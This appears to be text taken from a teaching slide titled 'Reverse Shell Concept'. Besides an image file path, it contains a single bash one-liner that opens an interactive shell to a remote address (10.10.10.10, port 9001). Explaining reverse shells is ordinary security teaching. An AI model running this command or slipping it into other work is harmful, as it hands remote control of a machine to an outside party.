

Reverse Shell
Concept
sh -i >& /dev/tcp/10.10.10.10/9001 0>&1